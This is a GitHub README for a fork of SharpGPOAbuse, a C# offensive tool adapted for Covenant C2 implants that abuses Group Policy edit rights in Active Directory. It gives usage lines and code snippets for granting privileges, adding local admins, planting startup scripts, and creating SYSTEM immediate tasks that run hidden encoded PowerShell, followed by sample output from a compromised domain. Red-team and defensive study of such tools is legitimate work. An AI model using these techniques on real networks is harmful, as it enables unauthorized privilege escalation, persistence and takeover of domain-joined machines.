 # SharpGPOAbuse

SharpGPOAbuse is a .NET application written in C# that can be used to take advantage of a user's edit rights on a Group Policy Object (GPO) in order to compromise the objects that are controlled by that GPO.

More details can be found at the following blog post: [https://labs.f-secure.com/tools/sharpgpoabuse](https://labs.f-secure.com/tools/sharpgpoabuse)

This fork provides some modifications for use with Covenant's Grunts. The most notable changes are removing the `Environment.Exit()` calls that will kill a Grunt (since they do not create sacrificial processes for post-ex jobs) and removing the dependency for CommandLineParser.

## Compile Instructions

SharpGPOAbuse has been built against .NET 3.5 and is compatible with Visual Studio 2017 & 2019. Simply open the solution file and build the project.

## Usage

```
SharpGPOAbuse (Friendly Fork)
  AddNewRights:
    SharpGPOAbuse.exe AddNewRights [GPOName] [UserAccount] [UserRights CSV]
  NewLocalAdmin:");
    SharpGPOAbuse.exe NewLocalAdmin [GPOName] [UserAccount]
  NewStartupScript:");
    SharpGPOAbuse.exe NewStartupScript [GPOName] [UserAccount] [ScriptContent]
  NewImmediateTask:");
    SharpGPOAbuse.exe NewImmediateTask [GPOName] [Author] [TaskName] [CommandPath] [Arguments]
```

## Attacks Types

Currently SharpGPOAbuse supports the following options:

| Option                                                            | Description                          |
| ----------------------------------------------------------------- | ------------------------------------ |
| [AddUserRights](#adding-user-rights)                              | Add rights to a user                 |
| [AddLocalAdmin](#adding-a-local-admin)                            | Add a user to the local admins group |
| [AddComputerScript](#configuring-a-user-or-computer-logon-script) | Add a new computer startup script    |
| [AddUserScript](#configuring-a-user-or-computer-logon-script)     | Configure a user logon script        |
| [AddComputerTask](#configuring-a-computer-or-user-immediate-task) | Configure a computer immediate task  |
| [AddUserTask](#configuring-a-computer-or-user-immediate-task)     | Add an immediate task to a user      |

## Attack Options

### Adding User Rights

```c#
string[] UserRights = { "", "" };
string UserAccount = "";
string GPOName = "";

UserRightAssignment.AddNewRights(DomainName, DomainController, GPOName, DistinguishedName, UserRights, UserAccount);
```

`UserRights` can be any of the following:

```
SeTrustedCredManAccessPrivilege, SeNetworkLogonRight, SeTcbPrivilege, SeMachineAccountPrivilege, SeIncreaseQuotaPrivilege, SeInteractiveLogonRight, SeRemoteInteractiveLogonRight, SeBackupPrivilege, SeChangeNotifyPrivilege, SeSystemtimePrivilege, SeTimeZonePrivilege, SeCreatePagefilePrivilege, SeCreateTokenPrivilege, SeCreateGlobalPrivilege, SeCreatePermanentPrivilege, SeCreateSymbolicLinkPrivilege, SeDebugPrivilege, SeDenyNetworkLogonRight, SeDenyBatchLogonRight, SeDenyServiceLogonRight, SeDenyInteractiveLogonRight, SeDenyRemoteInteractiveLogonRight, SeEnableDelegationPrivilege, SeRemoteShutdownPrivilege, SeAuditPrivilege, SeImpersonatePrivilege, SeIncreaseWorkingSetPrivilege, SeIncreaseBasePriorityPrivilege, SeLoadDriverPrivilege, SeLockMemoryPrivilege, SeBatchLogonRight, SeServiceLogonRight, SeSecurityPrivilege, SeRelabelPrivilege, SeSystemEnvironmentPrivilege, SeManageVolumePrivilege, SeProfileSingleProcessPrivilege, SeSystemProfilePrivilege, SeUndockPrivilege, SeAssignPrimaryTokenPrivilege, SeRestorePrivilege, SeShutdownPrivilege, SeSyncAgentPrivilege, SeTakeOwnershipPrivilege
```

### Adding a Local Admin

```c#
string UserAccount = "";
string GPOName = "";

LocalAdmin.NewLocalAdmin(UserAccount, DomainName, DomainController, GPOName, DistinguishedName, false);
```

### Configuring a User or Computer Logon Script

```c#
string ScriptName = "Startup.bat";
string ScriptContent = "powershell.exe -Sta -Nop -Window Hidden -EncodedCommand <>";
string GPOName = "";

StartupScript.NewStartupScript(ScriptName, ScriptContent, DomainName, DomainController, GPOName, DistinguishedName, "User");
```

### Configuring a Computer or User Immediate Task

```c#
string TaskName = "";
string Author = "NT AUTHORITY\\SYSTEM";
string Command = "powershell.exe";
string Arguments = "-Sta -Nop -Window Hidden -EncodedCommand <>";
string GPOName = "";

ScheduledTask.NewImmediateTask(DomainName, DomainController, GPOName, DistinguishedName, TaskName, Author, Arguments, Command, false, "Computer");
```

## Example Output

```
[+] Domain = prod.zeropointsecurity.local
[+] Domain Controller = tf-win-dc02.prod.zeropointsecurity.local
[+] Distinguished Name = CN=Policies,CN=System,DC=prod,DC=zeropointsecurity,DC=local
[+] GUID of Server Baseline is: {205F0E03-17C3-4E9B-925E-330FAD565CA1}
[+] Creating new startup script...
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new startup script. Wait for the GPO refresh cycle.
[+] Done!
```
